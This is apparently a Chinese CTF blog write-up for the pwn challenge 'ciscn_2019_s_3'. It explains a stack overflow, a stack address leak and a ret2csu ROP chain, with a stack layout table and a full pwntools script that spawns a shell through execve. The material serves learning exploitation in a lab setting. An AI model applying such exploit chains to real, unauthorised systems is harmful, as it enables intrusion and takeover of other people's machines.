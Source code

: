 ```yaml
---
title: 'ciscn_2019_s_3'
date: 2023-12-30 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2csu]
---
```


  > 在`64`位程序中可以通过栈溢出控制`__lib_csu_init`中的参数来控制`rdx,rsi,edi`寄存器

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

- `syscall`函数会根据`rax`的值来调用函数,例如当`rax==0x3B`时,运行`execute`
- 栈地址泄露
- ROPgadgets

<img src="../assets/img/old_imgs/image-20231227185527471.png" alt="image-20231227185527471" style="zoom:80%;" />

<img src="../assets/img/old_imgs/image-20231227185621950.png" alt="image-20231227185621950" style="zoom: 67%;" />

1.`read`中存在溢出

2.泄露`buf`的地址写入`/bin/sh`

3.通过ROPgadgets得到控制寄存器的地址

4.最后通过`ret2csu`和`syscall`构造出`excuse('/bin/sh',0,0)`得到`shell`

*ret2csu*思路:

1. 首先跳转到`pop rbx`的位置`(csu_end)`,控制一系列寄存器,根据代码可知`r13 -> rdx ; r14 -> rsi ; r15 -> edi`

2. 再`retn`到`mov rdx,r13`的位置`(csu_font)`,这里要注意存在`call`函数,同时,要满足`cmp rbx,rbp`即`$rbx-$rbp==0`才继续运行,为了满足条件我们需要在第$1$步中提前布局
3. 运行`loc_400596`的代码,`add rsp,8`抬高了栈顶,所以我们填充栈的时候也要注意多填充`8`个位置,接着是常规的填充,根据需要,不需要则全部填充为`0xdeadbeef`直到`retn`回到程序流

<img src="../assets/img/old_imgs/image-20231227185656124.png" alt="image-20231227185656124" style="zoom:67%;" />

泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |

```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.
